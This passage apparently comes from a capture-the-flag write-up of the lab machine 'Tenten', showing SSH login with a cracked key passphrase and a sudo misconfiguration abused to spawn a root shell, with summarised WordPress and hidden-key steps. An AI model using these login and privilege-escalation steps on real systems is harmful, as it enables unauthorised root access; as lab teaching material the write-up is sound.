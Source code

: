 ```bash
Warning: Permanently added '10.10.10.10' (ECDSA) to the list of known hosts.
Enter passphrase for key 'id_rsa': superpassword
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

65 packages can be updated.
39 updates are security updates.

Last login: Fri May  5 23:05:36 2017
takis@tenten:~$ id
uid=1000(takis) gid=1000(takis) groups=1000(takis),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),117(lpadmin),118(sambashare)
takis@tenten:~$ cat user.txt
e5c7ed3b************************
```

`John` finds the password for the SSH key, `superpassword` and we already had the username `takis`.

## Privilege escalation

```bash
takis@tenten:~$ sudo -l
Matching Defaults entries for takis on tenten:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User takis may run the following commands on tenten:
    (ALL : ALL) ALL
    (ALL) NOPASSWD: /bin/fuckin
takis@tenten:~$ cat /bin/fuckin
#!/bin/bash
$1 $2 $3 $4
takis@tenten:~$ sudo /bin/fuckin /bin/bash
root@tenten:~# id
uid=0(root) gid=0(root) groups=0(root)
root@tenten:~# cat /root/root.txt
f9f7291e************************
```

This might be the easiest privilege escalation ever. `Takis` can run `/bin/fuckin` as `root` without a password and `/bin/fuckin` just takes 4 arguments and will execute those. Passing `/bin/bash` as an argument will run that as `root` giving us a `root` shell.

## TL;DR

- Vulnerable WordPress plugin shows all items
- Download image with hidden SSH key
- Crack password for hidden SSH key
- User can run application as root
